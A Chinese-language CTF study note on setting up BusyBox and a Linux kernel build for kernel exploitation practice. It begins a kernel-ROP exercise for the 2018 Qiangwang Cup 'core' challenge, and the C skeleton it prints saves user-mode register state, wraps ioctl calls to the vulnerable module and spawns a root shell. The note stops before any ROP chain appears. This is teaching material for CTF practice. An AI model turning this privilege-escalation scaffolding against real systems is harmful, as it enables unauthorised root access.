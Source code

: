 make menuconfig

打开 

* `Settings -> ---Build Option -> Build static binary (no shared library)`

关闭

* `Linux system utilities -> support mounting NFS file system in Linux`
* `Networking utilities -> inetd `

### 内核编译

可能的依赖 
* `sudo apt-get install make gcc bison flex libssl-dev ncurses-dev` 

* `make menuconfig`
一切默认
* `make bzImage`


### 习题-Kerenl-ROP

* 2018强网杯-pwn-core

```c
// gcc -o mypoc -static -w mypoc.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

uint64_t user_cs, user_ss, user_eflags,user_sp	;
void save_stats() {
	asm(
		"movq %%cs, %0\n"
		"movq %%ss, %1\n"
		"movq %%rsp, %3\n"
		"pushfq\n"
		"popq %2\n"
		:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
 		:
 		: "memory"
 	);
 	printf("[*] save_stats\n\n");
}

void shell()
{
	if(getuid()==0)
	{
		system("/bin/sh");
	}
	printf("[!] No root shell");
}

void setoff(int fd,int off)
{
	ioctl(fd,0x6677889C,off);	
}

void core_read(int fd,char buf[])
{
	ioctl(fd,0x6677889B,buf);
}
```